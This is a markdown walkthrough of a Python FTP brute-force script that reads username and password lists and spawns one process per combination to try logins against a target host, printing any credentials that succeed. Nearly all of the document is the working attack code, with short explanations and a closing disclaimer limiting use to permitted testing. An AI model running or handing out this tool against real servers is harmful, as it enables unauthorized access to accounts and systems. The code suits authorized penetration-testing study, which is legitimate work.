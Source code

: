 ### FTP Brute Force Script Using `ftplib` and `multiprocessing`

This Python script performs FTP brute-force attacks using the `ftplib` module for FTP operations and `multiprocessing` for parallel execution.

### 1. Importing Required Modules:

```python
import ftplib
import multiprocessing
```

The script imports the `FTP` class from the `ftplib` module for FTP client operations and `multiprocessing` for parallel execution.

### 2. FTP Brute Force Function:

```python
def brute_force(ip_address, user, password):
    ftp = ftplib.FTP(ip_address)
    try:
        print("Testing user {}, password {}".format(user, password))
        response = ftp.login(user, password)
        if "230" in response and "access granted" in response:
            print("[*]Successful brute force")
            print("User: " + user + " Password: " + password)
        else:
            pass
    except Exception as exception:
        print('Connection error', exception)
```

The `brute_force` function attempts to log in to the FTP server with the specified user and password. If the login is successful, it prints a success message along with the user and password.

### 3. Main Function:

```python
def main():
    ip_address = input("Enter IP address or host name:")
    with open('users.txt', 'r') as users:
        users = users.readlines()
    with open('passwords.txt', 'r') as passwords:
        passwords = passwords.readlines()
    for user in users:
        for password in passwords:
            process = multiprocessing.Process(target=brute_force,
                                              args=(ip_address, user.rstrip(), password.rstrip(),))
            process.start()

if __name__ == '__main__':
    main()
```

The `main` function reads usernames and passwords from respective files (`users.txt` and `passwords.txt`). It then iterates over the combinations, spawning a new process for each combination to perform FTP brute-force attacks concurrently.

### Note:

- This script is for educational purposes only, and unauthorized access attempts are illegal.
- Use this script only on systems you have permission to test.
- Always ensure that you comply with the applicable laws and ethical guidelines while performing security testing.
